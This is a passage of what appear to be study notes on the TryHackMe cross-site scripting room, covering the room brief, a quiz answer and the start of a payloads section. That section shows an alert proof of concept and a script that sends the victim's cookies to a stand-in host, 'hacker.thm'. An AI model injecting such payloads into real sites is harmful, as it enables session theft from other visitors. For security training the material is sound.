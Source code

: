```yaml
---
title: Cross-Site Scripting (XSS)
date: 2022-06-12 18:32:00 -0500
categories: [Lesson, Tutorial]
tags: [XSS, TryHackMe]
---
```


Learn how to detect and exploit XSS vulnerabilities, giving you control of other visitor's browsers.

[https://tryhackme.com/room/xssgi](https://tryhackme.com/room/xssgi)

* * * 

## Task 1 Room Brief

Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a Box lab where you can try out your new skills.


Cross-site scripting vulnerabilities are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.  

   - XSS found in Shopify
   - $7,500 for XSS found in Steam chat
   - $2,500 for XSS in HackerOne
   - XSS found in Infogram

##   Answer the questions below

What does XSS stand for? Cross-site Scripting

## Task 2 XSS Payloads

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

``<script>alert('XSS');</script>``

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

``<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>``
